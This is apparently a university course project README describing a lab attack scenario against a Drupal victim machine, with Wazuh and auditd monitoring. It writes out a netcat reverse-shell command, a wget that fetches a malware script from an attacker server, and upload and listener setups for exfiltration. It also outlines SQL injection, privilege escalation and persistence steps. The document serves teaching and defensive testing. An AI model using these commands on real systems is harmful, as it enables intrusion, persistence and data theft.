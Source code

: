 # CS668A: Practical Cyber Security For Cyber Practitioners Hawkeye Final Project

Directory Structure:
```
    ├── CS668A_Hawkeye_Group_Project_demo.mp4          # Demo video for final project
    ├── OS-Vulnerability                               # OS-Vulnerability script executes and gives the root access
    ├── README.md                                      # Readme file
    ├── audit_mitre.rules                              # auditd rule mapped with mitre attack matrix
    ├── createUser.py                                  # For SQL injection attack
    ├── presentation.pptx                              # Presentation for final project
    └── systemd1.sh                                    # Malicious script to create persistence as a service in the machine and 
                                                         exfilterate the data from the victim machine
```

> To setup the entire project please follow the steps mentioned as follows:

## Setup Victim Machine (Ubuntu 20.04)

1. The first step is to setup the drupal website and create a login page using the [link](https://www.tecmint.com/install-drupal-in-ubuntu-debian/).
2. Install the shell client module in the drupal CMS. Shell client module for drupal can be found [here](https://www.drupal.org/project/shell_client) and new module installation process is shown in the [link](https://www.drupal.org/docs/user_guide/en/extend-module-install.html).
3. Install Wazuh server using [Link](https://computingforgeeks.com/how-to-install-wazuh-server-on-ubuntu/) and set up linux agent on the victim machine using [Link](https://documentation.wazuh.com/current/installation-guide/wazuh-agent/wazuh-agent-package-linux.html)
4. Install auditd on victim machine 
 ```sh
 sudo apt update
 sudo apt-get install auditd
 systemctl status auditd
 systemctl enable auditd
 systemctl start auditd
 ```
 5. Place the `audit_mitre.rules` file provided in this repository in the directory `/etc/audit/rules.d/` 
 6. Step 3 and 4 help the victim machine to monitor the security logs.
 
## Setup Attacker Machine (Kali OS)
Open three terminals or use `tmux` to split the terminal in three parts and execute the following commands:
```sh
* Terminal 1:
python3 -m pip install --user uploadserver
# for upload server where the attacker collect the data from the victim
python3 -m uploadserver 8002

* Terminal 2:
# For downloading the malware to victim
python3 -m http.server 8001

* Terminal 3:
# for reverse shell from victim
nc.traditional -lvp 8080
```

> After setting up the infrastructure, we can attack the victim machine and check the open-source tools' efficacy.
> To perform the attack scenario follow the mentioned steps:

### Steps to follow on Victim machine
```
* Initially host the vulnerable website having the shell client enabled on the victim machine.
* Restart all the system monitoring services like wazuh and auditd for security monitoring on the host.
* For real time monitoring of attacks execute below command for auditd
```
```sh
    tail -f /var/log/audit/audit.log | awk '/key/ {print $25,$26,$28}'
```
### Screenshot for the wazuh and auditd monitoring
![log monitoring](https://github.com/nkcool5/CS668A_Hawkeye/blob/main/Screenshot%20(1).png?raw=true)

### Steps to follow on attacker machine
```
* Perform nmap on the hosted website.
* check for open port for example 80 for webserver
* open browser and visit the website hosted 
* Perform the sql injection attack using `createUser.py` script. This script will take hosted website URL, username, password as a input for creating the admin user using SQL injection attack.
* After successful login, you can access the shell through the browser and execute the below command to get reverse shell of the victim machine.
```
```sh
nc.traditional 192.168.56.1 8080 -e "/bin/bash"
```
```
* Now we have access to the victim machine we can execute the `OS-Vulnerability` to get the root access.
* After getting the root access we create a hidden directory (.tmp) for defence evasion in home directory.
* Download the malware from the attacker's machine to victim machine using command below
```
```sh
wget http://<ip-address-of-attacker>:8001/systemd1.sh
```
```
* After downloading the malware attacker will execute the malware. Malware creates a service for persistence and exfiltrate the data from the victim machine.
```
### A few screenshots from the attackers machine compromising the victim

![attack](https://github.com/nkcool5/CS668A_Hawkeye/blob/main/attack.png?raw=true)
![attack1](https://github.com/nkcool5/CS668A_Hawkeye/blob/main/shell.png?raw=true)


